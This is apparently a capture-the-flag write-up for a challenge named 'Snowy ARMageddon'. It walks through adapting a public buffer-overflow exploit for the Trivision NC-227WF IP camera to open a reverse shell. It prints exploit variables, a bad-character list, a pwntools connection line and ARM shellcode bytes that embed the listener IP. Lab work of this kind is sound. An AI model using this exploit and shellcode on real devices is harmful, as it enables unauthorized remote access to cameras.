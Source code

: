 Some Google searching for `Trivision NC-227WF Exploit` quickly leads us to the following article: [(https://no-sec.net/arm-x-challenge-breaking-the-webs/)](https://no-sec.net/arm-x-challenge-breaking-the-webs/) and just by looking at the title it is evident that we're dealing with an ARM processor architecture (and the `ARMageddon` in the challenge title is making more sense now).

The article explains how a buffer overflow vulnerability in the Trivision camera firmware can be exploited to establish a reverse shell connection.  It conveniently also provides [assembly code instructions](code/Snowy_ARMageddon/original_assembly_instructions.asm) and a [python script](code/Snowy_ARMageddon/original_exploit.py) to exploit this.

The Python code includes the `HOST`, `LHOST` variables that need to be updated with the Camera IP address and Localhost IP address respectively. 
```
HOST = '10.10.106.239'
PORT = 50628
LHOST = [10,10,52,204]
LPORT = 4444
```

The code then declares a variable called `BADCHARS` - this contains a set of hex values that we cannot pass on to the device.... these will come into play in a short while...
```
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'  # Equivalent to decimal values: 0, 9, 10, 13, 32, 35 and 38 
```

There is also a line towards the end of the script that needs to be updated with the IP Camera's address:
```
s = remote('10.10.106.239', 50628)
```

Now comes the interesting bit...  The Python script includes a block of code that passes assembly instructions in the form of hex byte strings.  This includes our machine's local IP address hard-coded into the hex byte strings which will be used to establish the reverse shell.  Luckily for us, the inline documentation conviently indicates which line is tackling this and we also have the assembly code corresponding to it:
```
SC += b'\x59\x1f\xa0\xe3\x01\x14\xa0\xe1\xa8\x10\x81\xe2\x01\x14\xa0\xe1\xc0\x10\x81\xe2\x04\x10\x2d\xe5'   # 192.168.100.1
```
```
/* ADDR */
mov r1, #0x164
lsl r1, #8
add r1, #0xa8
lsl r1, #8
add r1, #0xc0
push {r1}       // 192.168.100.1
```

If you're reading this and are anything like myself - you probably just experienced an involuntary inner *groan* at the site of assembly code 😞...  but please stay with me for a while longer and I hope to demystify this code block for you.

First of all, we can use a Dis/Assembler like https://shell-storm.org/online/Online-Assembler-and-Disassembler/ to convert between assembly instructions and the equivalent hex values that represent it.  This tool will come in useful as we work out how to replace the hex byte string with one containing our local machine's IP address.  It is also worth keeping in mind that ARM uses a little-endian system which essentially means that the octets of the IP address are stored in reverse order, eg. `192.168.100.1` is stored as `1.100.168.192`.
